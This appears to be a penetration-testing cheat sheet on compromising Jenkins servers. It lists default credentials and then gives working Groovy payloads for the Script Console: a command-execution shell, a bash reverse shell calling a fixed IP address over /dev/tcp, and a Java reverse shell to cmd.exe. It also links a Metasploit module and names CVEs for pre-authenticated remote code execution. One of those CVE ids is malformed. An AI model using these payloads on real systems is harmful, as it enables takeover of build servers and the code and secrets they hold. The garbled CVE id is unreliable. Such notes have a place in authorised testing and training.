 * Open-source automation server written in Java.
* Often installed on windows machines as a `SYSTEM` account. 
# Discovery and Enumeration
* Runs on Tomcat port 8080 by default
* it can also utilise port 5000 to attack slave servers.
	* This port is used to communicated between masters and slaves,
* Also uses a local database and LDAP.
## Enumeration
* Default installation typically uses Jenkins database to store credentials. 
* Default credentials are `admin:admin`
# Attacking Jenkins 
### Script Console
* Once you have gained access a quick way of achieving command execution is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/)
* Located at 
```url
http://<url>:<port>/script
```
* Allows a user to run Apache [Groovy](https://en.wikipedia.org/wiki/Apache_Groovy) Scripts
#### Web Shell:
```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```
#### Reverse Shell: 
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
#### Metasploit Module
https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/
#### Windows Script:
```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
#### Java Reverse Shell for windows:
```groovy
String host="<ip>";
int port=<port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
### Other Vulnerabilities 
#### Jenkins 2.147
* Combines `CVE-2018-19999002` and `CVE-2019-1003000` to achieve pre-authenticated RCE. 
#### Jenkins 2.150.2
* Allows users with JOB creation and BUILD privileges to execute code on the system via Node.js.
* 